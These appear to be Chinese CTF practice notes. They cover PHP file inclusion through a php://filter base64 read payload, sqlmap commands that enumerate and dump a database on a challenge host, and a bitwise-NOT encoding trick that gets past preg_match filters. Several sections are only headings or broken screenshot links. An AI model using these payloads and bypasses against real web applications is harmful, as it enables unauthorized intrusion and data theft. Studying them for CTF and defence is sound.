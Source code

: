#### 文件包含//nginx;;;;;;;见csdn

# 做题

![image-20230623153031455](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\image-20230623153031455.png)

flag或空格等等等被过滤

![image-20230623155244018](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\image-20230623155244018.png)

![](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\image-20230623155313619.png)

sql-------flag被注入

### ![image-20230623172209377](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\image-20230623172209377.png)伪php协议

**php://filter/read=convert.base64-encode/resource=hint.php****

//由sqlmap得到数据库，表明，列名。。。。最后得到flag，适用于sql注入；

```
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 --dbs //得到库名
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 -D test_db --tables //得到表命
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 -D test_db -T test_tb --columns //得到列名
sqlmap -u http://node1.anna.nssctf.cn:28894/?id=1 -D test_db -T test_tb -C flag --dump //输出FLAG
```

### **//取反过滤**

## 知识点

取反过滤：取反过滤是先将命令取反，然后对其进行[url编码](https://so.csdn.net/so/search?q=url编码&spm=1001.2101.3001.7020)最后在上传时再一次进行取反。

取反过滤可以绕过[preg_match](https://so.csdn.net/so/search?q=preg_match&spm=1001.2101.3001.7020)()过滤的所有字符和数字。

### 取反脚本

<?php
echo urlencode(~'取反内容');
?> 

获取取反结果后在url注入栏输入

(~取反结果1)(~取反结果2);

## sql注入

万能密码
